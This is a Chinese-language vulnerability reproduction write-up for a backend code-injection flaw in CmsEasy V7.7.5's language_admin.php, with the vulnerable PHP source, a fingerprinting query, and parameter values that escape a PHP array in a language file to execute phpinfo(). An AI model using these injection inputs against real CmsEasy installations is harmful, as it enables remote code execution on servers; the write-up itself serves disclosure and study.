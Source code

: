 # CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313235033013.png)

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313235034285.png)

存在漏洞的文件为 `lib/admin/language_admin.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632731716459-d529c18d-4ef7-439d-8f89-67046487db78.png)

```php
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632731775416-f1f75d5f-ced3-4d63-8ecd-f9728e3e785c.png)

其中参数有三个，分别为 `key , cnnote, val`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632731945111-a0cb2f4a-4ab8-4f77-a026-368341754607.png)

传入参数后,查看 `lang/cn/system_custom.php` 文件中

```php
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```php
test1  test2  test3);
```

写入后文件内容

```php
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```php
test4  ,test5, 	,phpinfo());/*
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632732559691-eed0b63a-9beb-44fc-ac7c-8bb456eaea14.png)

写入后文件内容

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632732579899-4659ac1d-b516-4960-93ad-c4fdf4800db5.png)

访问文件 `/lang/cn/system_custom.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632732628987-af135049-37e0-4dcd-bad7-04d53985c677.png)



若有收获，就点个赞吧